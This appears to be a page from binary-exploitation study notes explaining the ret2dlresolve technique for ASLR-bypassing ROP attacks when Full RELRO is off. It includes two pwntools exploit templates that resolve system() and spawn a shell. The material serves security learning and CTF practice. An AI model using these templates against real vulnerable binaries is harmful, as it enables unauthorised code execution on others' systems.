 ```yaml
---
description: >-
  A way to exploit buffer overflows using ROP when not many gadgets are
  available, and Full RELRO is disabled
---
```


# ret2dlresolve

Ret2dlresolve is a technique that can be used to trick the binary into resolving a specific function, such as `system()`, into the PLT (Procedure Linkage Table). By doing this, you can use the PLT function as if it was an original component of the binary. This bypasses ASLR and does not require any leaks of the libc address.

The attack is only possible when you can overwrite GOT entries, making it impossible on Full RELRO. On both No RELRO and Partial RELRO this attack is possible however:

![](<../../.gitbook/assets/image (2) (1) (1) (1) (1).png>)

For a more detailed explanation see:

{% embed url="https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve" %}
Detailed analysis and information about ret2dlresolve from ir0nstone's notes
{% endembed %}

## PwnTools

PwnTools contains a [`ret2dlresolve`](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html) function that can generate payloads for this attack automatically.&#x20;

### `read()`

```renpy
rop = ROP(elf)
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['sh'])
rop.raw(rop.ret)  # Align stack (64-bit)
rop.read(0, dlresolve.data_addr)  # Call read function to write data
rop.ret2dlresolve(dlresolve)  # Write data

p.sendline(flat({
    OFFSET: rop.chain(),
}))
p.sendline(dlresolve.payload)  # Run /bin/sh

p.interactive()
```

### `gets()`

```renpy
rop = ROP(elf)
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['sh'])
rop.raw(rop.ret)  # Align stack (64-bit)
rop.gets(dlresolve.data_addr)  # Call read function to write data
rop.ret2dlresolve(dlresolve)  # Write data

p.sendline(flat({
    OFFSET: rop.chain(),
}))
p.sendline(dlresolve.payload)  # Run /bin/sh

p.interactive()
```

